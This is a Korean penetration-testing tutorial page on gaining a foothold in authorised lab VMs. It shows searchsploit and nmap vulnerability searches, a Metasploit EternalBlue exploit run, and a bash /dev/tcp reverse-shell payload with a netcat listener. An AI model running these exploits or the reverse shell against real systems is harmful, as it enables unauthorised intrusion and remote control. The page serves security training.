

스캐닝으로 찾은 서비스에서 취약점을 확인하고 익스플로잇해 최초 발판(foothold)을
확보한다. 모든 실습은 Metasploitable2 등 인가된 취약 VM에서 한다.

## 발판 확보 흐름 {#foothold}



## 취약점 검색 {#search}

```bash
# 로컬 Exploit-DB 검색
searchsploit vsftpd 2.3.4
searchsploit --cve 2017-0144   # EternalBlue

# 서비스 버전으로 매칭
nmap --script vuln 10.10.10.5
```

## Metasploit 기본 {#msf}

```bash
msfconsole -q
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.5
set LHOST 10.10.10.2
run
```

Metasploit은 강력하지만 **원리를 먼저 이해**한다. 수동 익스플로잇을 병행해
페이로드·리스너·셸의 동작을 몸에 익힌다.

## 리버스 셸 {#reverse-shell}

```bash
# 공격 머신에서 리스너
nc -lvnp 4444
# 대상에서 실행되는 페이로드 (예)
bash -i >& /dev/tcp/10.10.10.2/4444 0>&1
```

리버스 셸은 대상이 **밖으로** 연결하게 해 방화벽 인바운드 차단을 우회한다.
안정화(TTY 업그레이드) 후 [권한상승](/docs/system/privilege-escalation/)으로 넘어간다.
